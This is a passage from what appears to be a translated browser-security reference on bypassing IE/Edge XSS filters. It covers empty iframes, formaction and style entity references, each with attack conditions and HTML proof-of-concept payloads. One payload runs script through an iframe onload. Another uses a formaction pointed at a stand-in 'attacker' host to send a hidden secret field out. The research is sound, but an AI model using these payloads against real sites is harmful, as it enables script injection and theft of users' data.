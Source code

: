 #### Using an empty iframe

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. The page allows embedding in frames

supplement:

Creating an empty iframe with XSS and navigating a scripted URL to that frame causes a bypass due to the referrer of the vulnerable domain itself.

Reference URL:

- [http://www.cracking.com.ar/bugs/2016-07-14/](http://www.cracking.com.ar/bugs/2016-07-14/)

PoCs:

[https://l0.cm/bypass/ieedge_iframe.html](https://l0.cm/bypass/ieedge_iframe.html)

```html
<!-- Found by @magicmac2000 -->
<iframe onload="contentWindow[0].location='//vulnerabledoma.in/bypass/text?q=<script>alert(location)</script>'" src="//vulnerabledoma.in/bypass/text?q=%3Ciframe%3E"></iframe>
```

### Using formaction (getting information only)

Conditions for attacking:

1. Has reflective XSS
2. You can write a new formaction attribute where you can submit an existing form content that contains sensitive information.

PoCs:

[https://vulnerabledoma.in/bypass/form?q=%22%3E%3Cbutton%20formaction=//attacker/%3E](https://vulnerabledoma.in/bypass/form?q%3D%2522%253E%253Cbutton%2520formaction%3D//attacker/%253E)

```html
<form action="form">
<input type="hidden" name="q" value=""><button formaction=//attacker/>">
<input type="hidden" name="secret" value="a09d3ef0">
<input type="submit">
</form>
```

### Use of character-referenced strings in style (style description only)

Conditions for attacking:

1. Has reflective XSS
2. Attackable with CSS

supplement:

`@`Entity reference notations such as , `:`, `\`, that are part of the reaction string `(`are not taken into account, so bypassing occurs in style blocks and attribute values ​​within SVG where entity reference notations are allowed. `behavior:url()`IE allows script execution via CSS as well as attacks that read information in some cases .
